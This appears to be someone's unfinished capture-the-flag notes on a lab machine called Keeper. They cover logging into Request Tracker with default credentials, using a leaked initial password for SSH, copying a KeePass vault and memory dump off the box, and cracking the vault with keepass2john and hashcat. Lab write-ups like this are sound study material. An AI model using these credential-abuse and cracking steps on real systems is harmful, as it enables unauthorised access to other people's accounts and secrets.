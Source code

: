 tickets.keeper.htb/rt/

> Add these to `/etc/hosts`:

    10.129.98.9  tickets.keeper.htb
    10.129.98.9  keeper.htb

"»|« RT 4.4.4+dfsg-2ubuntu1 (Debian) Copyright 1996-2019 Best Practical Solutions, LLC. "

Best Practical Request Tracker...what is it?

Doesn't matter, login is `root:password`

Apparently Lise Noorgard ( http://tickets.keeper.htb/rt/User/Summary.html?id=27 ) removed a KeePass attachment and downloaded it to her home dir.

I wonder what her password is.

Comment: `New user. Initial password set to Welcome2023!`

Maybe we can run:

    ssh lnorgaard@tickets.keeper.htb
    Welcome2023!

We have user flag!

Now to download that file in the user's home directory.

    scp lnorgaard@tickets.keeper.htb:RT30000.zip ./
    Welcome2023!

Broken pipe. Let's try something else.

    ssh lnorgaard@tickets.keeper.htb
    Welcome2023!
    python -m http.server
    <visit http://tickets.keeper.htb:8000/ >
    

Now we have a `.dmp` and a KeePass file.

We can try to crack the KeePass file with Hashcat.

    keepass2john passcodes.kdbx > passcodes.hash
    hashcat -h | grep KeePass
    hashcat -m 13400 -a 0 -w 1 passcodes.hash /usr/share/wordlists/rockyou.txt

Exhausted keyspace! It's not in `rockyou.txt`.

I cheated a bit. Apparently I need to search the memory dump for these non-ASCII symbols:

    æ
    ø

TODO: 

    https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/debugger-download-tools#install-debugging-tools-for-windows

    https://learn.microsoft.com/en-us/windows-hardware/drivers/debugger/